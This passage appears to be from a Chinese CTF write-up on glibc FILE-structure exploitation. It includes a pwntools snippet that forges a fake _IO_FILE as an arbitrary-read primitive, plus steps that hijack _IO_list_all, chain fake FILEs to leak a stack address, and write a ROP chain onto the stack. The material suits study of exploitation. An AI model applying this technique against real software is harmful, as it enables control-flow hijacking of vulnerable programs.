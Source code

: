 
### 任意读原语


```python
fake_io_write = fit({
    0x00: 0x8000 | 0x800 | 0x1000, #_flags
    0x20: write_addr, #_IO_write_base
    0x28: write_addr + len, #_IO_write_ptr
    0x68: next_FILE, #_chain
    0x70: 1, # _fileno
    0xc0: 0, #_modes
    0xd8: _IO_file_jumps, #_vtables
}, filler=b'\x00')
```

## 劫持控制流

有了任意读写原语自然是直接打栈了：

1. 通过程序给的（只需要一次 8 字节）任意地址写堆地址原语，修改 `_IO_list_all` 指向 `fake_file1`，`fake_file1` 是布置在堆上的一个任意地址写原语
2. 通过任意地址写原语继续写两个 `fake_file2` 和 `fake_file3`，前者任意地址读原语泄漏栈地址，后者继续任意地址写用来布置第四个 `fake_file`
3. 构造任意地址写原语 `fake_file4`，往泄漏的栈地址上读入 rop_chain 完成攻击。